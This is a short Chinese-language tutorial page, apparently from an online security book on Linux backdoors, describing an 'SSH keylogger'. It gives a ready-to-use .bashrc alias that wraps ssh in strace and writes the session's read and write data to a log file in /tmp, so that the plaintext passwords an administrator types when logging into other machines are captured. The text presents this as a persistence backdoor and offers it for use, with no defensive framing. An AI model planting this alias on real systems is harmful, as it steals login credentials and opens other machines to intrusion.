

# SSH Keylogger

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/5.html](http://book.iwonder.run/安全技术/Linux 后门/5.html)

利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的.bashrc 里新建一条 alias、这样可以抓取他登陆其他机器的 ssh 密码。算是 alias 后门。后面会在讲一下 alias 后门。

```
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh' 
```




